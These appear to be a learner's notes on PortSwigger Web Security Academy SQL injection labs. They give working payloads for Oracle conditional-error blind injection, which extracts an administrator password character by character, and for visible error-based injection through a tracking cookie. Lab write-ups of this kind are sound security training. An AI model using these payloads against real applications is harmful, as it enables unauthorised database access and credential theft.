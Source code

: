 - `'||(SELECT CASE WHEN (condition) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` 
  
  - if condation true response return 500 internal error (because of `TO_CHAR(1/0)`)
  
  - if condation false responese will be 200 OK

- `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND rownum=1)||'` -> 500 internal server error 
  
  - there is a username called `administrator` inside `users` table. 

- `'||(SELECT CASE WHEN (length(password)>1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and rownum=1)||'` -> 500 internal server error
  
  - filter we will use to determine password length 

- `'||(SELECT CASE WHEN (length(password)=20) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and rownum=1)||'` -> 500 internal server error
  
  - password length **20 charcter**.

- `'||(SELECT CASE WHEN (SUBSTR(password,1,20)='eun48a95qd1jwjxnzdzw') THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and rownum=1)||'`
  
  - this how to get password our target char by char `eun48a95qd1jwjxnzdzw`.

---

## [Lab: Visible error-based SQL injection | Web Security Academy](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

application uses a tracking cookie for analytics

The database contains a different table called `users`, with columns called `username` and `password`

- `category` prameter and request body in form not vulnarable.

- `Cookie: TrackingId=Mmw4JoCqtHFaEmUF'` -> 500 internal server error
  
  - is vulnarable with sqli (cause error message).
  
  - it return the error message to website 

- `' AND (select '2' from users limit(1))='2)` -> 200 OK
  
  - DB is not oracle 
  
  - there is a table called users 

`' AND 1=CAST((SELECT username FROM users) AS int) --`

- 500 server error 

- Cause is the response truncation after a specific length (delete id we don't need it).

`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`

- there is more than one row as excepted -> table users exist 

- 500 server error 
